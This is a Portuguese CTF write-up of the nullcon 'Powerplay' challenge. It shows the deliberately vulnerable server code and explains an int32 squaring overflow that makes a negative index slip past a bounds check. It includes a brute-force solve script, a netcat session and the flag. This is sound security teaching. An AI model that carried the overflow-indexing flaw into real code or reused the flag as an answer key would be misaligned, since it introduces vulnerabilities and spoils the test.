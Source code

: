 # WriteUp: Powerplay
## Descrição do Desafio
**Categoria**: misc

**Descrição**:
> Pump yourself up with power to get an inspirational quote.

### Arquivos
| Arquivo | Descrição |
| ------- | --------- |
| chall.py | Código sendo executado no servidor. |
| solve.py | Script em Python que descobre o número correto. |

{% file src="https://github.com/HawkSecUnifei/Writeups/raw/refs/heads/main/2025/nullcon_CTF/Powerplay/Arquivos.zip" %} Arquivos.zip {% endfile %}

## Solução
O desafio disponibliza o seguinte código python.

{% code title="chall.py" overflow="wrap" lineNumbers="true" %}

```py
import numpy as np
from secret import flag, quotes

prizes = quotes + ['missingno'] * 4 + [flag] * 24

if __name__ == '__main__':
	print('Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!\n')
	player_count = int(input('How many players participate?\n'))
	power = np.zeros(player_count, dtype = np.int32)
	for i in range(player_count):
		power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
	ready = False

	while True:
		print('What do you want to do?\n1) pump up\n2) cash in')
		option = int(input())
		if option == 1:
			power = power**2
			ready = True
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
			exit()
		else:
			raise Exception('What?')

```

{% endcode %}

Analisando esse código, podemos ver que há um vetor `prizes` que contém várias strings e a flag 24 vezes no final, então, precisamos acessar alguma dessas posições em que a flag está.

Observando o funcionamento do código, é primeiro pedido do usuário a quantidade de jogadores e a "força" de cada jogador, após isso, o usuário pode escolher duas opções. A primeira opção "pump up" eleva todos as "forças" de todos os jogadores ao quadrado e a segunda opção "cash in" acessa uma posição do vetor prizes, porém, so irá acessar a posição caso a "força" do jogador seja menor que a quantidade de strings no vetor "quotes".

Portanto, precisamos escolher uma "força" que, ao elevar ao quadrado, resulte em uma posição em que a flag está no vetor de `prizes`, porém, como o vetor `prizes` contém todas as strings de `quotes` e o código não deixa
o usuário acessar alguma posição que seja maior que o tamanho de `quotes`, não podemos acessar as posições que a flag está de maneira tradicional.

Para passar por essa verificação, podemos usar uma propriedade da linguagem python que é os índices negativos.

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
v[-1] # Última posição
v[-2] # Penúltima posição
v[-3] # Antepenúltima posição
```

{% endcode %}

Desse modo, precisamos acessar alguma posição entre `-1` e `-24`, que são as posições em que a flag se encontra. Porém, precisamos de algum número que, elevado ao quadrado, resulta em um número nesse intervalo. 
Podemos fazer isso utilizando `integer overflow`.

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
power = np.zeros(player_count, dtype = np.int32)
```

{% endcode %}

Como a variável `power` é definido commo um int de 32 bits, podemos encontrar algum número que, elevado ao quadrado, passa do valor máximo de inteiros de 32 bits e resulta em um número negativo. Para fazer isso,
podemos fazer um script simples que testa todos os números de `0` até o maior inteiro possível de 32 bits e verifica se esse número ao quadrado se encaixa no intervalo de `-24` a `-1`.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
import numpy as np

def encontra_indice():
    for i in range(2147483647): # Ate maior valor inteiro possivel
        i2 = np.int32(i) ** 2   # Elevando ao quadrado
        if i2 >= np.int32(-24) and i2 < 0: # Verificando se esta no intervalo -24 a -1
            return i, i2

indice, indiceQuadrado = encontra_indice()
print("Número encontrado " +  str(indice))
print(str(indice) + " ao quadrado = " + str(indiceQuadrado))
```

{% endcode %}

Ao rodar esse script, obtemos o seguinte output.

```shell
Número encontrado 34716455
34716455 ao quadrado = -15
```

Agora, basta apenas conectar ao servidor e usar esse número como "força" de qualquer jogador

```shell
root@DESKTOP-4IEKTFM:/mnt/c/Users/Caio/Desktop# nc 52.59.124.14 5016
Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!

How many players participate?
1
Player 0, how strong are you right now?
34716455
What do you want to do?
1) pump up
2) cash in
1
What do you want to do?
1) pump up
2) cash in
2
You got an inspiration: ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}
```

### Flag: `ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}`

## Autor da WriteUp
[Membro de Exploitation - CaioMendesRRosa](https://github.com/CaioMendesRRosa)